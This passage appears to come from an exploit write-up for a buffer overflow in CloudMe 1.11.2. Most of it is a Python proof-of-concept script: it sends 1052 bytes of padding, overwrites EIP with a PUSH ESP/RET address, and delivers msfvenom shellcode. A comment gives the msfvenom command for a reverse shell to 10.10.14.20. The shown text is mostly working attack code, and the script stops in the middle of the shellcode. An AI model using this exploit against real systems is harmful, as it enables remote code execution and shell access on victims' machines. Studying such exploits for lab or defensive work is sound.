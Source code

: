 ```shell
payload += b"\xee\x71\x68\xba\xaa\x22\x11\x9b\x16\x84\x2e\xfb"
payload += b"\xf8\x79\x8b\x70\x14\x6d\xa6\xdb\x71\x42\x8b\xe3"
payload += b"\x81\xcc\x9c\x90\xb3\x53\x37\x3e\xf8\x1c\x91\xb9"
payload += b"\xff\x36\x65\x55\xfe\xb8\x96\x7c\xc5\xed\xc6\x16"
payload += b"\xec\x8d\x8c\xe6\x11\x58\x02\xb6\xbd\x33\xe3\x66"
payload += b"\x7e\xe4\x8b\x6c\x71\xdb\xac\x8f\x5b\x74\x46\x6a"
payload += b"\x0c\x71\x9d\x7a\xd8\xed\xa3\x82\xe5\xd4\x2a\x64"
payload += b"\x8f\x36\x7b\x3f\x38\xae\x26\xcb\xd9\x2f\xfd\xb6"
payload += b"\xda\xa4\xf2\x47\x94\x4c\x7e\x5b\x41\xbd\x35\x01"
payload += b"\xc4\xc2\xe3\x2d\x8a\x51\x68\xad\xc5\x49\x27\xfa"
payload += b"\x82\xbc\x3e\x6e\x3f\xe6\xe8\x8c\xc2\x7e\xd2\x14"
payload += b"\x19\x43\xdd\x95\xec\xff\xf9\x85\x28\xff\x45\xf1"
payload += b"\xe4\x56\x10\xaf\x42\x01\xd2\x19\x1d\xfe\xbc\xcd"
payload += b"\xd8\xcc\x7e\x8b\xe4\x18\x09\x73\x54\xf5\x4c\x8c"
payload += b"\x59\x91\x58\xf5\x87\x01\xa6\x2c\x0c\x31\xed\x6c"
payload += b"\x25\xda\xa8\xe5\x77\x87\x4a\xd0\xb4\xbe\xc8\xd0"
payload += b"\x44\x45\xd0\x91\x41\x01\x56\x4a\x38\x1a\x33\x6c"
payload += b"\xef\x1b\x16
```

#### Final Exploit

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=1337 -b '\x00\x0A\x0D' -f python -v payload

payload =  b""
payload += b"\xdb\xd8\xb8\x2b\x66\x7d\x94\xd9\x74\x24\xf4\x5d"
payload += b"\x29\xc9\xb1\x52\x31\x45\x17\x83\xc5\x04\x03\x6e"
payload += b"\x75\x9f\x61\x8c\x91\xdd\x8a\x6c\x62\x82\x03\x89"
payload += b"\x53\x82\x70\xda\xc4\x32\xf2\x8e\xe8\xb9\x56\x3a"
payload += b"\x7a\xcf\x7e\x4d\xcb\x7a\x59\x60\xcc\xd7\x99\xe3"
payload += b"\x4e\x2a\xce\xc3\x6f\xe5\x03\x02\xb7\x18\xe9\x56"
payload += b"\x60\x56\x5c\x46\x05\x22\x5d\xed\x55\xa2\xe5\x12"
payload += b"\x2d\xc5\xc4\x85\x25\x9c\xc6\x24\xe9\x94\x4e\x3e"
payload += b"\xee\x91\x19\xb5\xc4\x6e\x98\x1f\x15\x8e\x37\x5e"
payload += b"\x99\x7d\x49\xa7\x1e\x9e\x3c\xd1\x5c\x23\x47\x26"
payload += b"\x1e\xff\xc2\xbc\xb8\x74\x74\x18\x38\x58\xe3\xeb"
payload += b"\x36\x15\x67\xb3\x5a\xa8\xa4\xc8\x67\x21\x4b\x1e"
payload += b"\xee\x71\x68\xba\xaa\x22\x11\x9b\x16\x84\x2e\xfb"
payload += b"\xf8\x79\x8b\x70\x14\x6d\xa6\xdb\x71\x42\x8b\xe3"
payload += b"\x81\xcc\x9c\x90\xb3\x53\x37\x3e\xf8\x1c\x91\xb9"
payload += b"\xff\x36\x65\x55\xfe\xb8\x96\x7c\xc5\xed\xc6\x16"
payload += b"\xec\x8d\x8c\xe6\x11\x58\x02\xb6\xbd\x33\xe3\x66"
```